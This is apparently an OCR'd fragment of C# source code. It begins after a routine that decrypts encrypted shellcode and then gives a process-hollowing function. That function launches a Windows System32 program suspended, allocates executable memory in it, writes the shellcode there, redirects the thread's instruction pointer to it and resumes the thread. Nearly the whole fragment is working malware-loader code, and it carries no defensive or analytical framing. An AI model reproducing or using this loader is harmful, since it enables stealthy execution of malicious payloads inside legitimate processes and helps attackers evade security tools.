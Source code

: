 ```csharp
        cipher.ProcessBytes(encryptedShellcode, 0, encryptedShellcode.Length, decryptedShellcode, 0);
        return decryptedShellcode;
    }

    static void ProcessHollowing(string targetProcess, byte[] shellcode)
    {
        // Start the target process in suspended mode
        PROCESS_INFORMATION pi = default;
        STARTUPINFO si = new STARTUPINFO();
        string targetPath = @"C:\Windows\System32\" + targetProcess;
        bool success = PInvoke.CreateProcess(null, targetPath, null, null, false, CREATE_PROCESS.CREATE_SUSPENDED, null, null, si, ref pi);

        if (!success)
        {
            throw new InvalidOperationException("Failed to start the target process.");
        }

        // Allocate memory in the target process for the shellcode
        IntPtr remoteBuffer = PInvoke.VirtualAllocEx(pi.hProcess, IntPtr.Zero, (nuint)shellcode.Length, MEM_ALLOCATION_TYPE.MEM_COMMIT | MEM_ALLOCATION_TYPE.MEM_RESERVE, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

        if (remoteBuffer == IntPtr.Zero)
        {
            throw new InvalidOperationException("Failed to allocate memory in the target process.");
        }

        // Write the shellcode into the allocated memory
        bool written = PInvoke.WriteProcessMemory(pi.hProcess, remoteBuffer, shellcode, (nuint)shellcode.Length, out _);

        if (!written)
        {
            throw new InvalidOperationException("Failed to write shellcode into the target process.");
        }

        // Get the address of the entry point
        CONTEXT context = new CONTEXT();
        context.ContextFlags = CONTEXT_FLAGS.CONTEXT_FULL;

        if (PInvoke.GetThreadContext(pi.hThread, ref context))
        {
            // Modify the entry point to point to the shellcode
            context.Rip = (ulong)remoteBuffer.ToInt64(); // for x64, or use context.Eip for x86

            if (!PInvoke.SetThreadContext(pi.hThread, ref context))
            {
                throw new InvalidOperationException("Failed to set the thread context.");
            }

            // Resume the thread to execute the shellcode
            PInvoke.ResumeThread(pi.hThread);
        }
        else
        {
            throw new InvalidOperationException("Failed to get the thread context.");
        }

        // Close handles
```